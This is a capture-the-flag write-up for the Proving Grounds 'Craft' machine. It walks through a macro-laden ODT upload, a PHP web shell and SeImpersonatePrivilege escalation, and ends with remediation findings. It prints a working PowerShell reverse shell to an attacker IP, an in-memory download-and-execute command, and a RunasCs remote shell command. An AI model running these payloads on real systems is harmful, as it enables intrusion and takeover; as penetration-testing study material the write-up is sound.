# Craft (OffSec Proving Grounds) Writeup

## Enumeration
#### Nmap Scan Results
Nmap scan results reveal only port 80 open, with an Apache web server running. Nmap OS detection indicates that the target is a Windows machine.


At first glance, the web server's home page appears to be empty.


However, a file upload feature is found at the bottom of the page.


An attempt to upload a TXT file fails, with the web application's response revealing that only `ODT` files are accepted.


## Initial Access
An ODT file is an OpenDocument Text file, equivalent to DOC/DOCX files but used by LibreOffice and Apache OpenOffice Writer. Like DOC files, ODT files can contain macros that can be abused to create a malicious document that executes a reverse shell when opened.

MMG-LO is a [GitHub repository by 0bfxgh0st](https://github.com/0bfxgh0st/MMG-LO) containing Python proof-of-concept scripts that automatically generate ODT files with injected macros, as well as files in other formats. The scripts accept the target operating system, IP address and port as parameters and generate a document containing a macro with a reverse shell payload.



The `mmg-odt.py` script is downloaded and used to create a malicious ODT file for Windows.


A `Netcat` listener is set up to receive the connection on port 443, and the file is then successfully uploaded to the web application.


Shortly after, `Netcat` catches a connection and the reverse shell is established. The shell is running as the user `thecybergeek`.


The user flag is found on `thecybergeek`'s Desktop.

## Privilege Escalation
Enumeration of local users reveals another user named `apache`. This suggests that the account might be used to run the Apache web server.


The `C:\` drive contains an XAMPP installation used to run the Apache web server. The web application's root directory is located in `htdocs`, which also contains an `uploads` directory.


Checking directory permissions with `icacls` reveals that the user `thecybergeek` has full control (F) over the `uploads` directory, allowing the compromised user to write files into it.


Since XAMPP is used to run the Apache web server, PHP code execution should be supported. A PHP web shell can be created in the `uploads` directory and accessed through the browser to execute system commands as the account running the web application. For this purpose, the following web shell is prepared on the attacking machine:


A Python web server is set up on port 80 using the `http.server` module, and the web shell is downloaded to the `uploads` directory using `CertUtil`.


The web shell is accessed through the browser. Executing the `whoami` command reveals that the web server runs as the local user `apache`, identified during previous enumeration.


The following PowerShell reverse shell script is prepared to upgrade the web shell to a reverse shell.
```
┌──(shushan㉿shushan)-[~/OffSec/Labs/Craft]
└─$ cat powershell.ps1    
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.165',445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
The following command is then executed, using the `DownloadString` method to download the PowerShell script and execute it in memory.
```
cmd=powershell.exe -c "IEX (New-Object Net.Webclient).DownloadString('http://192.168.45.165/powershell.ps1')"
```

An additional `Netcat` listener receives the connection on port 445, establishing a reverse shell as the `apache` user.


The `apache` user has `SeImpersonatePrivilege` enabled. This privilege is commonly assigned to Windows service accounts running web applications, but it can also provide a path to privilege escalation.


[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato/releases) is transferred to the target system and executed to change the local `Administrator` account's password to `Pwned1k`.


[Invoke-RunasCs.ps1](https://raw.githubusercontent.com/antonioCoco/RunasCs/refs/heads/master/Invoke-RunasCs.ps1) is then transferred to `craft`. This script imitates the Windows `runas.exe` binary but accepts the user's password as a parameter, allowing it to work even without a fully interactive shell. It also supports the `-Remote` parameter to initiate a remote connection.


With `Netcat` listening on port 4444 on the attacking machine, the `Invoke-RunasCs.ps1` script is executed with the following commands:
```
Import-Module ./Invoke-RunasCs.ps1
Invoke-RunasCs -Username Administrator -Password Pwned1k -Command cmd.exe -Remote 192.168.45.165:4444
```

The script initiates a connection to port 4444, establishing administrative access to the target system.


The root flag is retrieved from `C:\Users\Administrator\Desktop`

## Findings & Remediation

### Unrestricted File Upload
#### Description
The web application allows users to upload ODT files without sufficient security controls to prevent malicious documents containing macros.
#### Impact
An attacker can upload an ODT file containing a malicious macro that is stored on the web server. If a user downloads and opens the document with macros enabled, the macro can execute commands on the user's system and potentially establish a reverse shell.
#### Remediation
Implement security controls to detect and block ODT files containing malicious macros. If macros are not required by the application, reject documents containing them. Consider applying additional restrictions to macro execution through appropriate security policies.

### Insecure File Permissions
#### Description
The compromised user `thecybergeek` has full control over the `uploads` directory located within the web application's root directory. Since the web server supports PHP execution, this allows the user to upload PHP files containing malicious code.
#### Impact
An attacker with access to the `thecybergeek` account can upload and execute a PHP web shell, allowing commands to be executed under the `apache` service account.
#### Remediation
Restrict write permissions on the web application's directory structure, granting access only to accounts that require it. Prevent external access to the `uploads` directory and its contents so that uploaded files cannot be accessed and executed directly through the web server.
### SeImpersonatePrivilege Abuse
#### Description
While `SeImpersonatePrivilege` is not necessarily a vulnerability on its own, as it is commonly assigned to Windows service accounts that run web applications, the attack chain identified during the assessment can provide direct access to the `apache` service account, introducing a risk to the system.
#### Impact
An attacker who gains access to the `apache` account can abuse `SeImpersonatePrivilege` to obtain administrative access to the target system.
#### Remediation
Following the remediation steps outlined in the previous findings should mitigate the risk of this privilege being abused. However, the `apache` account should also be assessed to determine whether `SeImpersonatePrivilege` is required. If the web application does not require this privilege, it should be removed.
